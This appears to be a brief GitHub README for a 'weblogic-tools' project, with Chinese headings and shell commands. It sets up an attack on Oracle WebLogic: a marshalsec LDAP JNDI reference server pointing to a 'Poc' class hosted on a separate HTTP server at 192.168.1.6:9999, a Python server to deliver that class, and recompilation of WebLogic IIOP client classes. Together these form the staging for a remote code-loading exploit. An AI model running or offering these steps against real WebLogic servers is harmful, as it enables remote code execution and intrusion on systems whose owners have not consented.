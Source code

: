 # weblogic-tools
weblogic-tools

启动 JNDI 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.1.6:9999/#Poc 1099
```

启动 HTTP 服务

```
python -m http.server 9999
```

修改代码

```
javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/iiop/IORManager.java

javac -cp wlfullclient.jar -source 1.5 -target 1.5 -sourcepath weblogic -d weblogic weblogic/corba/idl/RemoteDelegateImpl.java
```